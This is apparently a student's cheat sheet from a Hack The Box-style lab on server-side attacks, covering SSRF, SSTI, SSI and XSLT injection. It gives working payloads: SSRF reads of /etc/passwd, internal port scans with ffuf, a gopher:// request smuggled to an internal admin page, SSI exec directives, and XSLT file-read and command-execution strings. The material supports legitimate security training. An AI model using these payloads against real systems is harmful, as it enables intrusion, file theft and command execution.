

# Server-Side Attacks

## SSRF

[OWASP SSRF Page](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)

### Identification

Based on web app at http://10.129.201.127:34978 that has a drop down to check date availbility through a post parameter (`dateserver=http://dateserver.htb/availability.php&date=2024-01-01`):

- Try pointing the post request to itself to see if the response reflects `dateserver=http://127.0.0.1/index.php&date=2024-01-01`
- Use burp to check post parameter for dynamically loaded content.
- Try changing the request to see if error infromation.
- Start a netcat listener and send a request in the post parameter to it i.e: `dateserver=http://10.10.15.145:8000/ssrf/&date=2024-01-01`.

### Exploitation

- Change POST parameter to `dateserver=file:///etc/passwd&date=2024-01-01` to check for LFI.

- internal portscan by accessing ports on localhost:

```bash
seq 1 10000 > ports.txt
ffuf -w ./ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

- accessing restricted endpoints:

```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

- Consider we find and endpoint admin.php through fuzzing which returns a POST form:

{width=900}

### Protocols

- `http://127.0.0.1/` or `https://` can be used to access internal or external endpoints
- `file:///etc/passwd` can be used for local file inclusion
- `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` can be used to send arbitrary payloads with internal services

## SSTI
### Exploitation
Templating Engines are used to dynamically generate content

### Test String
- `${{<%[%'"}}%\.`

## SSI Injection - Directives
| Directive | Description |
|-----------|-------------|
| `<!--#printenv -->` | Print variables |
| `<!--#config errmsg="Error!" -->` | Change config |
| `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` | Print specific variable |
| `<!--#exec cmd="whoami" -->` | Execute command |
| `<!--#include virtual="index.html" -->` | Include web file |

## XSLT Injection
### Elements
| Element | Description |
|---------|-------------|
| `<xsl:template>` | Indicates an XSL template. Can contain a match attribute that contains a path in the XML-document that the template applies to |
| `<xsl:value-of>` | Extracts the value of the XML node specified in the select attribute |
| `<xsl:for-each>` | Enables looping over all XML nodes specified in the select attribute |
| `<xsl:sort>` | Specifies the node to sort elements in a for loop by in the select argument. A sort order may be specified in the order argument |
| `<xsl:if>` | Used to test for conditions on a node. The condition is specified in the test argument |

### Injection Payloads
#### Information Disclosure
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="system-property('xsl:version')" />` | |
| `<xsl:value-of select="system-property('xsl:vendor')" />` | |
| `<xsl:value-of select="system-property('xsl:vendor-url')" />` | |
| `<xsl:value-of select="system-property('xsl:product-name')" />` | |
| `<xsl:value-of select="system-property('xsl:product-version')" />` | |

#### LFI
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` | |
| `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` | |

#### RCE
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="php:function('system','id')" />` | |